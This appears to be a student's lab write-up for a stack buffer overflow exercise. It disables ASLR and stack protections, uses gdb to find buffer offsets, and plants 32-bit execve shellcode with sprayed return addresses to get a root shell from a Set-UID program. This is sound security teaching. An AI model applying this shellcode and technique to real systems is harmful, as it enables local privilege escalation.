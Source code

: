 # Trabalho realizado na Semana #5

>We firstly turned off OS protections with the following code:
>```
>$ sudo sysctl -w kernel.randomize_va_space=0
>$ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1

>We ran the following program:
>```
>char *name[2];
>name[0] = "/bin/sh";
>name[1] = NULL;
>execve(name[0], name, NULL);
>```
>Then, we did the same with the 32 and 64 bits ones.
>
>In all cases, a shell was open in the same directory where the program was executed.

## Task 2

>By studying the code in the stack.c program, we realized that `strcopy` does not verify `str` size (517 bytes), which is copied to the array (100 bytes). Therefore, a buffer overflow occurs.
>
>We changed the program owner to `root` and activated `Set-UID` and deactived StackGuard and protections against code execution called by the stack.
>```
>$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
>$ sudo chown root stack
>$ sudo chmod 4755 stack
>```

## Task 3

>To exploit the vulnerability, we created an empty `badfile` and executed the vulnerable code in debug mode, so we could figure out the `bof()` function's return address compared to the start of the buffer.
>
>To that end, we used `gbd` and used a breakpoint in the `bof()` function.
>```
>$ touch badfile
>$ gdb stack-L1-dbg
>gdb-peda$ b bof 
>Breakpoint 1 at 0x12ad: file stack.c, line 16.
>gdb-peda$ run 
>...
>Breakpoint 1, bof (str=0xffffcf43 "V\004" as stack.c:16)
>16 {
>gdb-peda$ next
>...
>gdb-peda$ p $ebp 
>$1 = (void *) 0xffffcb18
>gdb-peda$ p &buffer 
>$2 = (char (*)[100]) 0xffffcaac
>gdb-peda$ quit
>```
>
>In the given python program, we made the following changes:
>
>The `shellcode` variable was changed to the 32-bits that executes the shell.
>```
>shellcode= (
> "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
> "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
> "\xd2\x31\xc0\xb0\x0b\xcd\x80"
>).encode('latin-1')
>```
>
>The `start` variable, so that the shellcode would go to the end of the array.
>```
>start = 517-len(shellcode)  
>```
>
>Calculated the new return address.
>```
>ret = 0xffffcb18 + start 
>```
>
>With the 2 obtained addresses, we calculated the return address based on the start of the array (offset)
>```
>offset = 0xffffcb18 - 0xffffcaac + 4 
>```
>
>Executing this program generated a `badfile` file.
>
>Finally, we executed the program that creates the buffer overflow and boots a shell with root permissions.

## Task 4

>To exploit the vulnerability, we created an empty `badfile` and executed the vulnerable code in debug mode, so we could figure out the `bof()` function's return address compared to the start of the buffer.
>
>To that end, we used `gbd` and used a breakpoint in the `bof()` function.
>```
>$ touch badfile
>$ gdb stack-L2-dbg
>gdb-peda$ b bof 
>Breakpoint 1 at 0x12ad: file stack.c, line 16.
>gdb-peda$ run 
>...
>Breakpoint 1, bof(...)
>...
>gdb-peda$ next
>...
>gdb-peda$ p $ebp 
>$1 = (void *) 0xffffcb18
>gdb-peda$ quit
>```
>
>In the given python program, we made the following changes:
>
>The `shellcode` and the `start` variables were not changed from Task 3.
>
>Because the buffer size range is 100 to 200, we added 200 instead of the `start` variable so we "spray" the first 200 bytes of the buffer with Return Addresses to make sure we hit the right one. This technique is known as *spraying*.
>
>```
>ret = 0xffffcb18 + 200
>```
>
>We used the same calculation from Task 3 for the `offset` variable.
>```
>offset = 112 
>```
>
>Instead of putting the return address in the [112:116] memory slot, we put the return address in every memory slot from 112 to 212, because of the 100 to 200 buffer size range.
>
>```
>for i in range(offset, offset + 100, 4)
>   content[i:i+L] = (ret).to_bytes(L,byteorder='little')
>```
>Executing this program generated a `badfile` file.
>
>Finally, we executed the program that creates the buffer overflow and boots a shell with root permissions.
